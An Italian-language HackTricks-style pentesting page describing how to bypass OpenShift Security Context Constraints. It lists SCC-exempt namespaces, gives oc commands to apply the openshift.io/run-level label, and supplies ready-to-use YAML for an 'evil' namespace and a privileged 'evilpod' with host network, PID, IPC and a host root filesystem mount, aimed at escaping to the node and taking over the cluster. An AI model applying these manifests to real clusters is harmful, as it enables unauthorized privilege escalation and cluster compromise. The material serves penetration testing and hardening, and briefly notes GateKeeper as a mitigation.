 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**L'autore originale di questa pagina è** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespace privilegiati

Per impostazione predefinita, SCC non si applica ai seguenti progetti:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se distribuisci pod all'interno di uno di questi namespace, non verrà applicato alcun SCC, consentendo la distribuzione di pod privilegiati o il montaggio del file system host.

## Etichetta del Namespace

Esiste un modo per disabilitare l'applicazione di SCC sul tuo pod secondo la documentazione di RedHat. Dovrai avere almeno uno dei seguenti permessi:

- Creare un Namespace e Creare un Pod in questo Namespace
- Modificare un Namespace e Creare un Pod in questo Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
L'etichetta specifica `openshift.io/run-level` consente agli utenti di eludere gli SCC per le applicazioni. Secondo la documentazione di RedHat, quando questa etichetta è utilizzata, nessun SCC è applicato a tutti i pod all'interno di quel namespace, rimuovendo di fatto qualsiasi restrizione.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Aggiungi Etichetta

Per aggiungere l'etichetta nel tuo namespace :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Per creare un namespace con l'etichetta tramite un file YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ora, tutti i nuovi pod creati nello spazio dei nomi non dovrebbero avere alcun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In assenza di SCC, non ci sono restrizioni sulla definizione del tuo pod. Questo significa che un pod malevolo può essere facilmente creato per evadere sul sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ora è diventato più facile elevare i privilegi per accedere al sistema host e successivamente prendere il controllo dell'intero cluster, ottenendo privilegi 'cluster-admin'. Cerca la parte **Node-Post Exploitation** nella seguente pagina:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etichette personalizzate

Inoltre, in base alla configurazione target, alcune etichette / annotazioni personalizzate possono essere utilizzate allo stesso modo dello scenario di attacco precedente. Anche se non è stato creato per, le etichette potrebbero essere utilizzate per concedere permessi, limitare o meno una risorsa specifica.

Cerca etichette personalizzate se puoi leggere alcune risorse. Ecco un elenco di risorse interessanti:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Elenca tutti i namespace privilegiati
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzato

In OpenShift, come dimostrato in precedenza, avere il permesso di distribuire un pod in uno spazio dei nomi con l'etichetta `openshift.io/run-level` può portare a un takeover diretto del cluster. Dal punto di vista delle impostazioni del cluster, questa funzionalità **non può essere disabilitata**, poiché è intrinseca al design di OpenShift.

Tuttavia, misure di mitigazione come **Open Policy Agent GateKeeper** possono impedire agli utenti di impostare questa etichetta.

Per bypassare le regole di GateKeeper e impostare questa etichetta per eseguire un takeover del cluster, **gli attaccanti dovrebbero identificare metodi alternativi.**

## Riferimenti

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
